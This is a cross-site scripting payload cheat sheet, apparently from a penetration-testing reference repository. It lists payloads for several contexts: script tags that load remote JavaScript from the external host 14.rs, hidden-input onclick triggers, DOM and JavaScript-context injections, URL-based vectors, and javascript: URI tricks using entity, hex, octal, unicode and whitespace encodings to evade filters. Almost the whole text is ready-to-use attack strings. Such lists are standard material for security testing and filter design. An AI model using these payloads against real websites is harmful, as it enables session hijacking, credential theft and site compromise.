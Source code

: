 XSS using script tag (external payload)

```javascript
<script src=14.rs>
you can also specify an arbitratry payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

XSS in Hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

DOM XSS

```javascript
#"><img src=/ onerror=alert(2)>
```

XSS in JS Context (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)

```javascript
-(confirm)(document.domain)//
; alert(1);//
```

XSS URL

```javascript
URL/<svg onload=alert(1)>
URL/<script>alert('XSS');//
URL/<input autofocus onfocus=alert(1)>
```

## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javacript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```
